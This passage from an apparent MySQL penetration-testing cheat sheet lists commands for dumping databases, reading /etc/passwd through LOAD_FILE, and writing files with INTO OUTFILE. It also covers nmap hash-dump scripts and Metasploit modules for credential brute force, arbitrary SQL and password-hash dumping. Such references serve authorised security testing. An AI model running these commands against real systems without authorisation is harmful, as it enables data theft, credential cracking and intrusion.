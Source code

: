 6) Dump data
```bash
# Dump a specific database
mysqldump -h $IP -P $PORT -u "$U" -p"$P" --databases "$DB" > "${DB}.sql"

# Dump all databases (if permitted)
mysqldump -h $IP -P $PORT -u "$U" -p"$P" --all-databases --single-transaction --quick --set-gtid-purged=OFF > all_dbs.sql
```

7) File read/write checks (only if FILE privilege and policy allow)
```bash
# Check file operation restrictions
mysql -h $IP -P $PORT -u "$U" -p"$P" -e 'SHOW VARIABLES LIKE "secure_file_priv";'

# Read a system file (Linux). Requires FILE privilege and readable path.
mysql -h $IP -P $PORT -u "$U" -p"$P" -e 'SELECT LOAD_FILE("/etc/passwd")\G'

# Write a file (e.g., note output path must be within secure_file_priv if set)
mysql -h $IP -P $PORT -u "$U" -p"$P" -e 'SELECT "test-from-mysql" INTO OUTFILE "/tmp/mysql_out.txt";'
```

8) Nmap NSE with credentials (deeper enumeration)
```bash
# Variables and databases via NSE (uses credentials)
nmap -p $PORT --script "mysql-variables,mysql-databases" \
  --script-args "mysqluser=$U,mysqlpass=$P" -oN nmap_mysql_enum_with_creds.txt $IP

# Attempt hash dump (if privileged; may require admin-level rights)
nmap -p $PORT --script mysql-dump-hashes --script-args "mysqluser=$U,mysqlpass=$P" \
  -oN nmap_mysql_hashdump.txt $IP
```

9) Metasploit (if allowed in your workflow)
```bash
msfconsole -q
# Inside msf
use auxiliary/scanner/mysql/mysql_version
set RHOSTS $IP
set RPORT $PORT
run

use auxiliary/scanner/mysql/mysql_login
set RHOSTS $IP
set RPORT $PORT
set USER_FILE users.txt
set PASS_FILE passwords.txt
set STOP_ON_SUCCESS true
run

# With valid creds
use auxiliary/admin/mysql/mysql_sql   # run arbitrary SQL
set RHOSTS $IP
set RPORT $PORT
set USERNAME $U
set PASSWORD $P
run

use auxiliary/admin/mysql/mysql_hashdump  # if privileges allow
set RHOSTS $IP
set RPORT $PORT
set USERNAME $U
set PASSWORD $P
run
```
